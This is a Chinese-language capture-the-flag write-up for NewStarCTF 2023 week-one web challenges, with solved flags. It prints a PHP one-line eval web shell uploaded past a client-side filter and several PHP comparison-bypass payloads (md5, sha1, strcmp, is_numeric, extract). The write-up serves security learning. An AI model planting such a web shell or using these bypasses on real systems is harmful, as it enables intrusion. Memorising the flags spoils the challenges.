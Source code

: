 # NewStarCTF_2023

## WEEK1|WEB 泄露的秘密

进入给定靶机提示**“粗心的管理员泄漏了一些敏感信息，请你找出他泄漏的两个敏感信息！”**：

1. 敏感信息很容易想到robots.txt，通过url访问robots.txt也确实有信息，得到第一段flag

   ```tex
   PART ONE: flag{r0bots_1s_s0_us3ful
   ```

2. 对于第二个敏感信息由于题目做得不多，试了网上说的常见的还是不行，干脆直接dirsearch扫服务器的目录发现除了robots.txt可以访问之外还有www.zip可以访问，在url添加www.zip下载压缩包，解压得到一个index.php文件中有第二段flag

   ```php
   $PART_TWO = "_4nd_www.zip_1s_s0_d4ng3rous}";
   ```


## WEEK1|WEB Begin of Upload

通过题目可以看到应该是利用文件上传的漏洞，在google浏览器先上传一个php文件发现有过滤，在**设置**中对js进行禁止就可以成功上传php文件，php文件内容如下：（利用一句话木马）

```php
<?php @eval($_POST['attack']);?>
```

成功将文件上传后利用蚁剑连接一句话木马成功进入服务器，在服务器的文件列表发现有f11114g文件打开得到flag

```tex
flag{b082c1e5-526a-4dbd-a5c4-00fa035bfb3c}
```

![1](https://github.com/2aurora2/CTF-WriteUp/blob/main/NewStarCTF_2023/image/1.png)

## WEEK1|WEB Begin of PHP

通过对题目进行分析应该就是要通过传递参数最后拿到flag

1. 第一步代码：

   ```php
   if(isset($_GET['key1']) && isset($_GET['key2'])){
       echo "=Level 1=<br>";
       if($_GET['key1'] ! == $_GET['key2'] && md5($_GET['key1']) == md5($_GET['key2'])){
           $flag1 = True;
       }else{
           die("nope,this is level 1");
       }
   }
   ```

   这一步考察的是md5的弱比较，对于这种的处理方式这里采用的是数组绕过，当对key1和key2传递一个数组后，md5会得到null，null=null就会返回true

   payload：(GET方式)

   ```bash
   ?key1[]=1&key2[]=2
   ```

2. 第二步代码：

   ```php
   if($flag1){
       echo "=Level 2=<br>";
       if(isset($_POST['key3'])){
           if(md5($_POST['key3']) === sha1($_POST['key3'])){
               $flag2 = True;
           }
       }else{
           die("nope,this is level 2");
       }
   }
   ```

   md5和sha1函数对数组经过加密后得到都是null，因此这里也是对key3传递一个数组即可

   payload：(POST方式)

   ```bash
   key3[]=1
   ```

3. 第三步代码：

   ```php
   if($flag2){
       echo "=Level 3=<br>";
       if(isset($_GET['key4'])){
           if(strcmp($_GET['key4'],file_get_contents("/flag")) == 0){
               $flag3 = True;
           }else{
               die("nope,this is level 3");
           }
       }
   }
   ```

   这一步是考察strcmp的绕过问题，strcmp比较的是字符串类型，如果强行传入其他类型参数，会出错，出错后返回值0，正是利用这点进行绕过

   payload：(GET方式)

   ```bash
   key4[]=1
   ```

4. 第四步代码：

   ```php
   if($flag3){
       echo "=Level 4=<br>";
       if(isset($_GET['key5'])){
           if(!is_numeric($_GET['key5']) && $_GET['key5'] > 2023){
               $flag4 = True;
           }else{
               die("nope,this is level 4");
           }
       }
   }
   ```

   这一步是对is_numeric的绕过，如果指定的变量是数字和数字字符串则返回 TRUE，否则返回 FALSE，浮点型返回空值即 FALSE，不仅检查十进制，同时也检查十六进制。绕过方法是is_numeric函数对于空字符%00，无论是%00放在前后都可以判断为非数值，而%20空格字符只能放在数值后，因为查看函数发现该函数对于第一个空格字符会跳过空格字符直接判断后面的内容；

   payload：(GET方式)

   ```bash
   // 这里如果用%002024不行
   key5=2024%00
   ```

5. 第五步代码：

   ```php
   if($flag4){
       echo "=Level 5=<br>";
       extract($_POST);
       foreach($_POST as $var){
           if(preg_match("/[a-zA-Z0-9]/",$var)){
               die("nope,this is level 5");
           }
       }
       if($flag5){
           echo file_get_contents("/flag");
       }else{
           die("nope,this is level 5");
       }
   }
   ```

   这一步代码会遍历POST参数，并且会进行正则匹配，只有当flag5这个参数为true时才会输出flag。这里要对正则匹配进行绕过，关于正则匹配的绕过有很多方式，这里利用和上面一样的方式，数组绕过即可

   payload：(POST方式)

   ```bash
   flag5[]=true
   ```

   即可得到flag

